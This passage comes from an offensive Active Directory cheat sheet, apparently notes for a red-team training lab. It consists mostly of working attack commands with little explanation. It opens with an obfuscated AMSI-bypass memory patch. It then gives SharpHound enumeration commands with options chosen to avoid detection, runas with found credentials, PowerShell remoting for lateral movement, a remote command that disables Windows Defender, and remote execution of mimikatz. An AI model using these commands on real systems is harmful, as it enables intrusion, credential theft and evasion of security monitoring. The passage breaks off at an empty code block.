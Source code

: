 ```
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```
3. Run SharpHound (Investorer)
```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All,LoggedOn -Verbose
#OR
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```
4. Upload the data to bloodhound

To avoid detections like MDI
```
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```
To avoid detections use Stealth
```
Invoke-BloodHound -Stealth
SharpHound.exe --stealth
```

# Runas
if you found AD credentials but nowhere to log in with them. Runas allows a user to run a specific program with a different account
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

# Lateral Movement - PowerShell Remoting
Avoid using psexec as it is too noisy. instead, use `"Enter-PSSession"` need Admin Privs
```
Enter-PSSession -ComputerName <dcorp-adminsrv>
```
### Execute commands or scriptblocks on another machine
```
Invoke-Command -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock {whoami}   #check who you are
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -command {whoami}   #check who you are
Invoke-Command -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true}   #Disable win defender
```
### File execution using ScriptBlock
```
Invoke-Command -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock{"C:\temp\mimikatz.exe"}
```
File execution using FilePath
```
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -FilePath "C:\temp\mimikatz.exe"
```
### Execute locally loaded function on another machine
```
```